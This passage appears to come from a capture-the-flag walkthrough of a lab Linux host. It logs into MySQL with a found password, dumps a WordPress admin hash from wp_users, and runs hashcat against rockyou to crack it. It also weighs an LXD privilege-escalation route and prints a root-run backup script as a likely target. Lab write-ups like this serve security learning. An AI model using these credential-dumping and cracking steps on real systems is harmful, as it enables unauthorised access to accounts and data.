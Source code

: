 ```sh
Enter password: w0rdpr3$$d@t@b@$3@cc3$$
```

Exploring the database:

```mysql
show databases;
-- just information_schema and wp
use wp;
show tables;
-- wp_users, wp_posts, wp_comments
select user_login, user_pass from wp_users;
-- wpadmin:$P$BBU0yjydBz9THONExe2kPEsvtjStGe1
```

Let's see if we can crack the password:

```sh
# https://hashcat.net/wiki/doku.php?id=example_hashes
# mode 400 = phpass
❯ hashcat -O -a0 -w3 --quiet -m 400 '$P$BBU0yjydBz9THONExe2kPEsvtjStGe1' /mnt/vm-share/rockyou.txt
```

Back to enumeration.

Found file `/home/onuma/.config/lxc/client.key`. Is that a privesc vector??? Maybe if I were in the `lxc/lxd` group:

- https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

In home folder, the `.mysql_history` file has an interesting line that says `create database backuperer;` Also, running linpeas it found a systemd unit file named `/lib/systemd/system/backuperer.service`, with a timer file that has it run every 5 minutes. That file calls a script: `/usr/sbin/backuperer`:

```sh
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

```